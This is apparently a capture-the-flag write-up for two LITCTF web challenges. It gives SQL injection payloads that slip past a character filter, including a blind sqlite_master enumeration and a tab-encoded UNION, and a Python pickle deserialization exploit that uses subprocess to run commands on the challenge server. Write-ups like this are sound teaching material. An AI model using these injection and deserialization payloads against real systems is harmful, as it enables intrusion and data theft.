





# LITCTF

## Author: darkmode
## Category: WEB(6/7)

## Alex-fan-club
## Type: sqli

The interface of website 



```python
sqli = 1 in [c in param for c in "*-/ |%"]
```
- This challenge filters `*-/ |%`, it has vulnerable here because it only filters
space. We can use tab to replace space


### Solution

I try to use payload `'or(1)or'` and it work (return all result)

First my idea is blind sqli:)), and it is stupid (but it work xD)
```mysql
select * from achievements where achievement like '%'or(substr((SELECT(tbl_name)FROM(sqlite_master)),1,1)='a'or'%'
```
I use burp intruder to brute it, and i get 2 tables:
- `achievements`
- `flag_is_in_here`

But i don't know how to brute column in the table flag_is_in_here

I build the chall in the local and `DB browser` to query `select * from sqlite_master`
and It returns 1 column name `sql` which contains struct of all table.

I continues use burp intruder to brute and I get column `flag_column`
Brute it and we get flag.
`'or(substr((SELECT(flag_column)from(flag_is_in_here)),1,1)='a'or'`
### Solution 2
When i have solved this chall, i realise we can use tab to replace space

Payload look like:

`'union%09select(flag_column)from(flag_is_in_here)union%09select'`


## Alex-fan-club
## Type: pickle deserialization rce


This chall use pickle to serialize object, when you create a bio it create a id with your bio

I have read a post write about pickle rce
https://davidhamann.de/2020/04/05/exploiting-python-pickle/

We take advantage from implementing `__reduce__` to get code execution 

I found a payload of pickle rce here:
https://gist.github.com/mgeeky/cbc7017986b2ec3e247aab0b01a9edcd

This chall has filter os and open, so we can't use `os` library to execute

```python
	if pickle_str[:len(dict_prefix)] != dict_prefix or pickle_str[-len(dict_suffix):] != dict_suffix or b"flag" in pickle_str or b"os." in pickle_str or b"open" in pickle_str:
		return "uhoh"
```

i use payload above to create a pickle string, but i use subprocess instead

```python
class easyRight():
    def __reduce__(self):
        import subprocess
        return subprocess.check_output, ("ls", )
		
payload = pickle.dumps({"name": "", "bio": easyRight()})
payload = base64.b64encode(payload)

print("[+] Payload: " + str(payload))
```

In line 36, the pickle_str will be loads, and the endpoint `/new` will return result 
```python
obj = pickle.loads(pickle_str)
```
So send this payload above to `url/new`, we success to RCE



Finally code to get flag:
```python
import pickle,base64,requests,re

url = "https://a-flask-of-pickles.litctf.live/"

class easyRight():
    def __reduce__(self):
        import subprocess
        return subprocess.check_output, (["cat","flaskofpickles.py"], )

payload = pickle.dumps({"name": "", "bio": easyRight()})
payload = base64.b64encode(payload)

print("[+] Payload: " + str(payload))

#Post to endpoint /new
_id = requests.post(url + "new", data=payload)
#It'll return id
url_result = url + _id.text

#Get the result
print("[+] Query to url",url_result)
result = requests.get(url_result).text
print(result)
result = "flag{" + re.findall('flag{(.*?)}',result)[0] + "}"
print("[+] Get the result:",result)
```

